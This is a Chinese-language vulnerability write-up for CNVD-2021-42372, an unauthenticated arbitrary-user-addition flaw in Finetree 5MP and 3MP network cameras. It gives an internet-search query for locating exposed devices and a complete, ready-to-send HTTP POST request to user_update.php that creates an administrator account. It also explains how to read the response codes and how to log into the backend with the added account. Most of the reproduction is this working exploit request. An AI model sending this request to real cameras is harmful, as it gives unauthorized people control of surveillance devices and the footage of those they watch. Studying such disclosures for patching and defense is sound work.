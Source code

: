 # Finetree 5MP 摄像机 user_pop.php 任意用户添加漏洞 CNVD-2021-42372

## 漏洞描述

Finetree 5MP 摄像机 user_pop.php文件存在未授权任意用户添加，攻击者添加后可以获取后台权限

## 漏洞影响

```
Finetree 5MP
Finetree 3MP
```

## 网络测绘

```
app="Finetree-5MP-Network-Camera"
```

## 漏洞复现

登录页面

![image-20220519162837184](images/202205191628247.png)

存在漏洞的文件 user_pop.php

![image-20220519163003628](images/202205191630679.png)

```
POST /quicksetup/user_update.php HTTP/1.1
Host: 
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Content-Length: 58
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=fn4qnpv5c8a2jgvf53vs1gufm6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

method=add&user=admin1234&pwd=admin1234&group=2&ptz_enable=0
```

可以Burpsuite发送POST请求

![image-20220519163205310](images/202205191632366.png)

或者HackBar发送POST请求，返回200即为添加成功，返回804则为用户重复

![image-20220519163124031](images/202205191631102.png)

利用添加的账户可以登录后台

![image-20220519163442946](images/202205191634048.png)
